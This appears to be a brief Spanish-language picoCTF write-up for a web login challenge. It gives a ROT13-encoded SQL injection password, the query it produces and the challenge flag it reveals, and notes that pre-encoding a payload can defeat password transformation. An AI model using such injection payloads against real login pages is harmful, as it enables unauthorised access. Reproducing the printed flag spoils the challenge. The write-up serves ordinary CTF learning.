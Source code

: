 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!
## Solución
```
password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}
```
## Notas adicionales
Podemos hacer una encriptación inversa cuando los passwords la tienen para inyectar sql
## Referencias
https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)ROT13(true,true,false,13/disabled)&input=JyBvciAxPTE7